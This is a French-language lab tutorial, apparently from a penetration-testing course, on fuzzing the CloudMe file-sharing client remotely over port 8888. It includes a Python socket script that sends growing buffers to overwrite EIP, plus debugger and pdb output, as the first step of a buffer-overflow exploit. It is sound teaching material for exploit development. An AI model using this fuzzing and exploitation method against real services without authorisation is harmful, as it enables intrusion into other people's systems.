 Fuzz à distance
==============

* * * * *

Jusqu'à présent, nous avons terminé un exercice de débordement de tampon local, qui couvrait toutes les parties essentielles d'un exercice de débordement de tampon basé sur la pile. En ce qui concerne l'exploitation à distance, la principale différence résiderait dans les scripts d'exploitation, tandis que les parties centrales de l'exploitation du débordement de mémoire tampon sont les mêmes.

* * * * *

Débogage d'un programme distant
--------------------------

Que nous déboguions un programme local ou un programme qui écoute les connexions distantes, nous devrons l'installer et le déboguer localement sur notre machine virtuelle Windows. Une fois que notre exploit est entièrement développé, nous pouvons alors l'exécuter sur le service distant sans avoir besoin d'un accès local. S'il est fait correctement, l'exploit devrait fonctionner, comme nous le verrons plus tard.

Cette fois, nous allons déboguer un programme appelé `CloudMe`, un outil d'utilisateur final pour un service de partage de fichiers, disponible sur le bureau de la machine virtuelle Windows ci-dessous. En tant que service de partage de fichiers, cet outil écoute sur un port toutes les mises à jour du serveur de fichiers. Nous pouvons le voir si l'outil est en cours d'exécution et nous répertorions les ports d'écoute dans `Powershell` :

```
PS C:\htb> netstat -a

...SNIP...
TCP    0.0.0.0:8888           0.0.0.0:0              LISTENING
[CloudMe.exe]

```

Comme nous pouvons le voir, le service écoute sur le port `8888`, et il a également établi une connexion à un serveur distant. Nous pouvons utiliser le programme `netcat` sur le bureau pour interagir avec ce port et voir s'il accepte des paramètres :

```
PS C:\Users\htb-student\Desktop> .\nc.exe 127.0.0.1 8888
?
PS C:\Users\htb-student\Desktop> .\nc.exe 127.0.0.1 8888
help
```

Nous essayons d'envoyer quelques paramètres, et cela ferme les connexions sans nous fournir de sortie. Essayons donc de le déboguer et de le fuzzer avec de grandes chaînes pour voir comment il les gérerait.

Pour déboguer un programme qui écoute sur un port distant, nous suivrons le même processus que nous avons suivi précédemment dans le module, exécuterons le programme et l'attacherons ou l'ouvrirons directement dans `x32dbg`. Si vous n'avez pas encore désactivé tous les points d'arrêt dans `x32dbg`, vous devriez le faire, car ce programme contient de nombreux points d'arrêt. Reportez-vous à la section `Fuzzing` pour savoir comment procéder.

* * * * *

Port distant de fuzzing
-------------------

Une fois que notre programme est en cours d'exécution et que nous y sommes attachés via `x32dbg`, nous pouvons commencer à le fuzzer et essayer de le planter. Contrairement au fuzzing local, où nous avons écrit nos charges utiles dans un fichier, puis ouvert le fichier dans notre application ou copié manuellement notre charge utile dans un champ de texte du programme, avec le fuzzing à distance, nous pouvons automatiser ce processus grâce à notre exploit Python.

Nous allons créer un nouveau script appelé `win32bof_exploit_remote.py` et commencer par ajouter quelques variables pour `IP` et `port`, de sorte que nous puissions facilement les modifier si nous voulons utiliser le script sur un autre serveur. Ensuite, nous écrirons notre fonction de fuzzing `def fuzz():`. Nous souhaitons envoyer des incréments de chaînes volumineuses, en commençant par `500` octets de long et en incrémentant de `500` à chaque itération, jusqu'à ce que nous envoyions une chaîne suffisamment longue qui plante le programme. Pour ce faire, nous allons boucler dans une plage de `0` à `10 000` avec des incréments de `500`, comme suit :

Code : python

```
import socket
from struct import pack

IP = "127.0.0.1"
port = 8888

def fuzz():
    for i in range(0,10000,500):
        buffer = b"A"*i
        print("Fuzzing %s bytes" % i)

```

L'instruction print nous aide à connaître la taille actuelle du tampon de fuzzing afin que, lorsque le programme plante finalement, nous sachions quelle longueur l'a fait planter.

Ensuite, nous devons nous connecter au port à chaque fois et lui envoyer notre charge utile. Pour ce faire, nous devons importer la bibliothèque `socket` comme nous l'avons fait au début de notre code ci-dessus, puis établir une connexion au port avec la fonction `connect` comme suit :

Code : python

```
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((IP, port))

```

Avec cela, nous devrions être prêts à envoyer notre tampon, ce que nous pouvons faire via `s.send(buffer)`. Nous devrons également envelopper notre boucle dans un bloc `try/except` , afin de pouvoir arrêter l'exécution lorsque le programme plante et n'accepte plus les connexions. Notre fonction `fuzz()` finale devrait ressembler à ceci :

Code : python

```
def fuzz():
    try:
        for i in range(0,10000,500):
            buffer = b"A"*i
            print("Fuzzing %s bytes" % i)
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((IP, port))
            s.send(buffer)
            s.close()
    except:
        print("Could not establish a connection")

fuzz()

```

Remarque : Dans notre cas, le programme ferme la connexion après chaque entrée, comme nous l'avons vu précédemment, nous établissons donc une nouvelle connexion à chaque itération de la boucle. Si nous pouvions conserver la connexion, comme un client ftp ou de messagerie, il serait préférable d'établir la connexion avant la boucle, puis de boucler la fonction `s.send(buffer)` .

Astuce : Comme notre serveur est vulnérable au point d'entrée après l'établissement de la connexion, nous envoyons directement notre charge utile. Il est également possible d'interagir avec le serveur et de transmettre des données telles que les identifiants de connexion ou certains paramètres.rs pour atteindre la fonction vulnérable, en utilisant `send` et `recv`. Vous pouvez en savoir plus sur les fonctions `socket` dans la [Documentation officielle](https://docs.python.org/3/library/socket.html).

Nous exécutons notre script et voyons ce qui suit :

```
Fuzzing 0 bytes
Fuzzing 500 bytes
...SNIP...
Fuzzing 9000 bytes
Fuzzing 9500 bytes

```

Nous constatons que l'intégralité du script s'est exécutée sans planter les services d'écoute, car le port `8888` était toujours à l'écoute tout au long de notre fuzzing. Cependant, si nous vérifions notre débogueur `x32dbg` , nous constatons que le programme frontal `cloudme` a planté et que son `EIP` a été écrasé par notre tampon `A` :

![Remote Fuzz](https://academy.hackthebox.com/storage/modules/89/win32bof_remote_fuzz.jpg)

Cela indique que le service d'écoute réel n'est peut-être pas vulnérable puisque notre entrée ne le plante jamais. Cependant, le programme frontal doit également traiter cette entrée (par exemple, pour la synchronisation des fichiers), et il est vulnérable à un dépassement de mémoire tampon, que nous pouvons exploiter via le service d'écoute. Il s'agit d'un cas unique qui montre que si une entrée est traitée à plusieurs emplacements/programmes, nous devons nous assurer de tous les déboguer, car un seul d'entre eux peut être vulnérable.

* * * * *

Fuzzing progressif
---------------

Nous sommes confrontés au problème ici parce que notre programme n'arrête jamais d'envoyer des charges utiles puisque le service d'écoute ne plante jamais. Alors, comment pourrions-nous savoir à quelle longueur de tampon le programme s'est écrasé ?

Nous pouvons progressivement envoyer notre tampon en ajoutant un `breakpoint()` après `s.send(buffer)`, de sorte que lorsque nous pouvons continuer manuellement en appuyant sur `c`, nous pouvons voir si notre entrée a planté le programme et écrasé `EIP `.

Astuce : Vous pouvez avoir à la fois `x32dbg` et le python IDLE côte à côte, de sorte que vous puissiez immédiatement remarquer quand le programme se bloque.

Nous allons donc ajouter notre point d'arrêt à notre exploit, redémarrer le programme dans `x32dbg`, et commencer à fuzzer progressivement le programme :

```
Fuzzing 0 bytes
> c:\users\htb-student\desktop\win32bof_exploit_remote.py(13)fuzz()
-> s.send(buffer)
(Pdb) c
Fuzzing 500 bytes
> c:\users\htb-student\desktop\win32bof_exploit_remote.py(12)fuzz()
-> breakpoint()
(Pdb) c
Fuzzing 1000 bytes
> c:\users\htb-student\desktop\win32bof_exploit_remote.py(13)fuzz()
-> s.send(buffer)
(Pdb) c
Fuzzing 1500 bytes
> c:\users\htb-student\desktop\win32bof_exploit_remote.py(12)fuzz()
-> breakpoint()
(Pdb) c
...
```

Une fois que le programme plante et `EIP` est écrasé, nous savons que le dernier nombre d'octets que nous avons envoyés est ce qui a planté le programme et que le programme est vulnérable à un dépassement de mémoire tampon.

Dans la section suivante, nous continuerons avec les étapes restantes que nous avons suivies précédemment pour exploiter la vulnérabilité de dépassement de mémoire tampon.
